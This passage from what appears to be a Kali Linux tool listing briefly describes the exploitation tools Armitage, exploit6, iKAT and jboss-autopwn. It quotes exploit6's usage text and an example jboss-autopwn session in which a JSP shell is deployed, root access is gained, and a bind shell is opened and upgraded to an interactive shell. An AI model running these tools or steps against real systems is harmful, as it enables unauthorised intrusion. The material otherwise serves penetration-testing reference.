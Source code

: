 * Share hosts, captured data, and downloaded files
   
* Communicate through a shared event log.
   
* Run bots to automate red team tasks.

Armitage organizes Metasploit's capabilities around the hacking process. There are features for discovery, access, post-exploitation, and maneuver.

{% img center /images/kali/exploit/armitage.png 'armitage' 'armitage' %}


**exploit6**

Performs exploits of various CVE known IPv6 vulnerabilities on the destination

``` plain
exploit6 v2.5 (c) 2013 by van Hauser / THC <vh@thc.org> www.thc.org

Syntax: exploit6 interface destination [test-case-number]

Performs exploits of various CVE known IPv6 vulnerabilities on the destination
Note that for exploitable overflows only 'AAA...' strings are used.
If a system is vulnerable, it will crash, so be careful!
```

**ikat**

iKAT is designed to provide access to the underlying operating system of a Kiosk terminal by invoking native OS functionality.

**jboss-autopwn**

This JBoss script deploys a JSP shell on the target JBoss AS server. Once deployed, the script uses its upload and command execution capability to provide an interactive session.

Features include:

* Multiplatform support – tested on Windows, Linux and Mac targets

* Support for bind and reverse bind shells

* Meterpreter shells and VNC support for Windows targets

[Example from the homepage](https://github.com/SpiderLabs/jboss-autopwn):

``` plain
Linux bind shell:

[root@nitrogen jboss]# ./e.sh 192.168.1.2 8080 2>/dev/null
[x] Retrieving cookie
[x] Now creating BSH script...
[x] .war file created successfully in /tmp
[x] Now deploying .war file:
http://192.168.1.2:8080/browser/browser/browser.jsp
[x] Running as user...:
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[x] Server uname...:
 Linux nitrogen 2.6.29.6-213.fc11.x86_64 #1 SMP Tue Jul 7 21:02:57 EDT 2009 x86_64 x86_64 x86_64 GNU/Linux
[!] Would you like to upload a reverse or a bind shell? bind
[!] On which port would you like the bindshell to listen on? 31337
[x] Uploading bind shell payload..
[x] Verifying if upload was successful...
-rwxrwxrwx 1 root root 172 2009-11-22 19:48 /tmp/payload
[x] You should have a bind shell on 192.168.1.2:31337..
[x] Dropping you into a shell...
Connection to 192.168.1.2 31337 port [tcp/*] succeeded!
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
python -c 'import pty; pty.spawn("/bin/bash")'
[root@nitrogen /]# full interactive shell :-)
```